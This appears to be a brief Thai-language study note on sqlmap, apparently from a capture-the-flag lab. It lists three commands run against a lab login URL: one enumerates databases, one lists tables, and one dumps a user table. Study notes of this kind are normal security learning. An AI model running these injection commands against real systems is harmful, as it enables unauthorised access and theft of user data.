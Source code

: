 #web
# What
- tool ไว้ทำ sql injection
- หา url ที่มี get/pose
# Command
ดู database ทั้งหมด
```bash
sqlmap -u "http://10.10.212.122/ai/includes/user_login?email=fsgdf&password=sdasaf" --dbs
```
ดู tables ทั้งหมดใน database ai
```bash
sqlmap -u "http://10.10.212.122/ai/includes/user_login?email=fsgdf&password=sdasaf" -D ai --tables
```
ดู data ทั้งหมดใน table user จาก database ai
```bash
sqlmap -u "http://10.10.212.122/ai/includes/user_login?email=fsgdf&password=sdasaf" -D ai -T user --dump
```